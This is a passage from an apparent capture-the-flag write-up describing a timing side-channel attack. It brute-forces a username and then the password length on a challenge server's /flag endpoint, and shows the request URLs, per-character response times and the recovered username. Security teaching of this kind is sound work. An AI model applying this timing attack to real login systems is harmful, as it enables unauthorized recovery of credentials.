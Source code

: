 > Initially, the `string.ascii_letters + string.digits` was replaced with ascii characters containing `a-zA-Z0-9` and all other special characters. But after obtaining the username, we can see that only alphanumeric values are used. Hence it was changed to reduce time needed.

So, this essentially checks from e.g. `XAAAAAAAAA` where `X` are the values from `a-zA-Z0-9`. And this continues for each of the indexes until we see the following output.

```
...
http://174.138.28.135:30031/flag?username=0p3nr4leay&password=111 y 0.565102
http://174.138.28.135:30031/flag?username=0p3nr4leaz&password=111 z 0.565232
http://174.138.28.135:30031/flag?username=0p3nr4lea{&password=111 { 0.563831
http://174.138.28.135:30031/flag?username=0p3nr4lea|&password=111 | 0.565666
http://174.138.28.135:30031/flag?username=0p3nr4lea}&password=111 } 0.562699
Username is 0p3nr4leaf
```

> The additional output containing the full URL payload, attempted character and elasped time. This will allow us to troubleshoot incase, some weird behaviour (in terms of time) happens midway (which did at some point giving the wrong username)

Now, we have the username - `0p3nr4leaf`, and with this basis, we can repeat this attack for the password values.

Finding out the password length, we are able to get 
```
0 0.618353
1 0.616466
2 0.633202
3 0.620295
4 0.614156
5 0.612806
6 0.614233
7 0.632294
8 0.618381
9 0.618171
10 0.615843
11 0.617165
12 0.61816
13 0.616338
14 0.616245
15 0.615591
16 0.614427
17 0.617074
18 0.613451
19 0.614492
20 0.716544 <-- Most time incurred
21 0.619495
22 0.616314
23 0.613904
24 0.616069
25 0.630552
26 0.616242
27 0.61654
28 0.615546
29 0.616117
```
